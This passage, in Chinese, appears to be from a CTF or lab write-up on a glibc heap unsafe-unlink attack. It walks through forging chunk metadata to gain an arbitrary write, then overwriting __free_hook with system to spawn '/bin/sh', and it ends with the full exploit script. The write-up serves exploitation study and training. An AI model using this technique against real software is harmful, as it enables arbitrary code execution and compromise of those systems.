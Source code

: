 也就是说两个空闲堆块已经consolidate到top_chunk了

![image-20210425204543853](https://static.hack1s.fun/images/2021/04/25/image-20210425204543853.png)

再查看一下m_array

![image-20210425205430002](https://static.hack1s.fun/images/2021/04/25/image-20210425205430002.png)

可以看到`m_array[0]`已经变成了`0x602048`

这是我们之前伪造的`bk->fd=fd`写入的

（伪造的bk是`0x602050`，指向的块的fd是`0x602060`，伪造的fd是`0x602048`；所以这里就是在`0x602060`的位置写入了`0x602048`）

这时由于`m_array[0]`的值已经被我们控制了，再使用`edit(0)`执行时就是往`0x602048`处写内容，也就是可以再次修改`m_array`的内容



我们再修改一次`m_array[0]`，将其修改为我们想要写入值的地址，比如修改为target的地址

之后再一次`edit(0)`，就可以修改target中的内容了

![image-20210425210323547](https://static.hack1s.fun/images/2021/04/25/image-20210425210323547.png)



## Drop a Shell！

有了任意地址写的能力之后，我们进一步就想要提升权限为返回一个shell

我们还是直接修改`free_hook`的值为`system`，这样`free`的时候就可以调用system

那么问题就是哪里放"/bin/sh"呢？

这边有一个比较tricky的方法，就是在修改`__free_hook`的时候不直接把`m_array[0]`修改为`__free_hook`

我们可以修改为`__free_hook - 8`这样`__free_hook`前面8个字节放`"/bin/sh\x00"`，之后是`system`的地址

并且由于`m_array[0]`指向的是`__free_hook - 8`正好就是`/bin/sh`的位置



![image-20210425211442076](https://static.hack1s.fun/images/2021/04/25/image-20210425211442076.png)

在IDA中可以看到，调用选项三的时候最终实际上就是`free(m_array[nb].user_data)`

所以直接调用`free(0)`就会调用`system("/bin/sh")`

```python
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

# Prepare fake chunk metadata.
fd = elf.sym.m_array - 0x18
bk = elf.sym.m_array - 0x10

prev_size = 0x80
fake_size = 0x90

edit(chunk_A, p64(0) + p64(0x80) + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))

free(chunk_B)

#edit(chunk_A, p64(0)*3 + p64(elf.sym['target']))
edit(chunk_A, p64(0)*3 + p64(libc.sym['__free_hook']-8))
edit(chunk_A,b"/bin/sh\x00"+p64(libc.sym["system"]))

free(chunk_A)
```
